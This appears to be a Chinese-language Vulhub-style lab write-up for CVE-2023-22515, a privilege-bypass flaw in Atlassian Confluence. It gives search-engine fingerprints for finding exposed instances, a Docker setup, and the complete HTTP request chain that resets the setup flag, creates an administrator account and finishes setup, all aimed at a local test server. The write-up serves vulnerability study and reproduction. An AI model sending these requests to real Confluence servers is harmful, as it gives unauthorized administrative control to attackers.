


Atlassian Confluence server-info.action 属性覆盖导致权限绕过漏洞 CVE-2023-22515¶
漏洞描述¶
Atlassian Confluence是企业广泛使用的wiki系统。
2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。
该漏洞不影响8.0.0以前的版本。
参考链接：
- https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html
- https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis
网络测绘¶
app="ATLASSIAN-Confluence"
title=="登录 - Confluence"
环境搭建¶
Vulhub 执行如下命令启动一个Confluence Server 8.5.1：
docker compose up -d
环境启动后，访问http://your-ip:8090即可进入安装向导，参考CVE-2019-3396这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为db，数据库名称confluence，用户名密码均为postgres。

漏洞复现¶
首先，最主要的请求就是覆盖目标Confluence服务器中的bootstrapStatusProvider.applicationConfig.setupComplete属性：
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
然后，你就可以使用如下请求创建一个新的管理员账户vulhub：
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check
username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
发送如下请求完成安装步骤：
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check
最后，直接使用新的vulhub账户（密码同样是vulhub）来登录Confluence，可见新的管理员已成功增加：
